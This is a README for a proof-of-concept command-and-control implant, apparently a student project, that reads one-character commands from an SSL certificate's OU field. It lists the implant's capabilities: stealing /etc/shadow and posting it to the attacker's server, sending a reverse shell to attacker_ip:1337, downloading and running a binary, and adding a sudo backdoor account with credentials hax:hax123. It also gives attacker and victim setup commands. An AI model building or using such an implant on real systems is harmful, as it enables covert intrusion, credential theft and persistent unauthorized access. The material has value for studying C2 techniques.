 ## sslc2
Simple C&C example in assembly that retrieves commands from the Organizational Unit (OU) field in an SSL certificate. Definitely far from being really done, but a cool proof-of-concept. This was my final project for CSC 314 @ DSU.

## Supported Options:
In order to make the attacker's host look inconspicuous, the commands are found in the OU field and only contain 1 character that represents certain actions. The supported actions are:

- Steal `/etc/shadow`, will be posted & saved to our server
- Spawn a reverse shell; reverse shell is sent to attacker_ip:1337
- Download, change perms & execute file/binary. 
- Create a new user. This creates a new user with sudo permissions with the credentials: hax:hax123

## Setup:
**Attacker Server**:
- install golang
- install python

```
ubuntu@attacker:~$ ./gencert.py your.domain

1: steal /etc/shadow
2: spawn reverse shell
3: download & execute script
4: create new user

option > 1

ubuntu@attacker:~$ go build server.go
ubuntu@attacker:~$ sudo ./server
```

**Victim Server**:
```
root@victim:~$ cd cnc && make
root@victim:~$ ./cnc
```
